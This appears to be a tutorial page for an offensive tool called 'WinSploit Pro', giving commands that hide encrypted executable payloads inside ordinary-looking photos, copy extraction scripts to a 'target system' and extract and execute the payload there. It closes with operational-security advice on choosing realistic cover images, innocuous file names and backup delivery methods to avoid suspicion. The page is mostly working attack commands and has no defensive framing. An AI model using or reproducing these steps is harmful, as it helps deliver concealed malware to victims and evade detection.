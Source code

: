 ### Tutorial 3: Extract Payload on Target

**Method 1: Using extract_payload.py**
```bash
# Copy extract_payload.py to target system
# Transfer steganographic image to target

# Extract and execute
python3 extract_payload.py vacation_photo.png familyTrip2023

# Extract only (don't execute)
python3 extract_payload.py vacation_photo.png familyTrip2023 --no-execute
```

**Method 2: Using WinSploit Pro**
```
Main Menu → 9 (Steganography) → 2 (Extract Payload)
Enter steganographic image path: vacation_photo.png
Enter output payload path: extracted_payload.exe
Is payload encrypted? (y/N): y
Enter decryption password: familyTrip2023
```

## Command Line Utilities

### stego_utils.py - Advanced Operations

```bash
# Hide payload with encryption
python3 stego_utils.py hide payload.exe photo.png output.png -p password123

# Extract payload
python3 stego_utils.py extract stego.png extracted.exe -p password123

# Check image capacity
python3 stego_utils.py capacity photo.png

# List suitable images in directory
python3 stego_utils.py list /home/user/Pictures/
```

## Security Considerations

### Encryption Best Practices
- **Always use encryption** for sensitive payloads
- **Use strong passwords** (12+ characters, mixed case, numbers, symbols)
- **Don't reuse passwords** across different operations
- **Consider password complexity** vs target user capability

### Operational Security
- **Choose realistic cover images** (vacation photos, memes, etc.)
- **Maintain original image metadata** when possible
- **Use appropriate file names** (avoid suspicious names)
- **Test extraction** before deploying to targets
- **Have backup delivery methods** in case steganography fails
